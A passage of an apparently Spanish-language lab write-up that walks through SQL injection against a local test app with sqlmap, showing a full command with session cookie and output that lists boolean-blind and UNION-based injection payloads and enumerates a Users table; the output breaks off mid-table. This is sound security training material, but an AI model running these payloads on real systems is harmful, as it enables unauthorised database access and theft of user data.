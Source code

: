 ```zsh  
```  

Logramos encontrar 3 tablas:  
```  
+-----------------+
| Products        |
| Users           |
| sqlite_sequence |
+-----------------+
```  

Vamos a listar el tipo de campos que tiene la tabla **Users**.  
Para ello debemos indicarle la tabla que queremos revisar con el parametro **-T Users**, seguido de **--columns** para indicar el tipo de las columnas encontradas.  

```zsh  
┌─[root@BinaryChaos] - [/home/gerh/Escritorio/Prometheus/Tests] - [Thu Jun 27, 03:09]
└─[$]> # sqlmap -u "http://172.17.0.2:9090/app/usersearch" --cookie="connect.sid=s%3Ahbsj8Q9LncwBa5WvzuJT905FGSmgF-Sm.etNjaXJx4%2BXt5pn0Xxe7voCeWf3ppz7eKO0TILE3c9M" --data="login=Gerh" -T Users --columns --dbms=sqlite
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.3.6#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 03:11:06 /2019-06-27/

[03:11:06] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: login (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: login=Gerh' AND 4169=4169 AND 'XNeY'='XNeY

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: login=-6864' UNION ALL SELECT CHAR(113)||CHAR(113)||CHAR(120)||CHAR(120)||CHAR(113)||CHAR(111)||CHAR(87)||CHAR(110)||CHAR(115)||CHAR(117)||CHAR(115)||CHAR(68)||CHAR(81)||CHAR(79)||CHAR(90)||CHAR(85)||CHAR(118)||CHAR(122)||CHAR(76)||CHAR(101)||CHAR(86)||CHAR(82)||CHAR(103)||CHAR(69)||CHAR(70)||CHAR(101)||CHAR(79)||CHAR(81)||CHAR(115)||CHAR(74)||CHAR(82)||CHAR(72)||CHAR(84)||CHAR(72)||CHAR(88)||CHAR(65)||CHAR(79)||CHAR(76)||CHAR(73)||CHAR(86)||CHAR(90)||CHAR(100)||CHAR(65)||CHAR(75)||CHAR(103)||CHAR(113)||CHAR(113)||CHAR(118)||CHAR(98)||CHAR(113),NULL-- PnZX
---
[03:11:06] [INFO] testing SQLite
[03:11:06] [INFO] confirming SQLite
[03:11:06] [INFO] actively fingerprinting SQLite
[03:11:06] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[03:11:06] [INFO] fetching columns for table 'Users' in database 'SQLite_masterdb'
[03:11:06] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[03:11:06] [WARNING] unable to retrieve column names for table 'Users' in database 'SQLite_masterdb'
Database: SQLite_masterdb
Table: Users
[29 columns]
+------------------+---------+
| Column           | Type    |
+------------------+---------+
| adres_e-mailowy  | numeric |
| adrese-mail      | numeric |
| adressee-mail    | numeric |
```
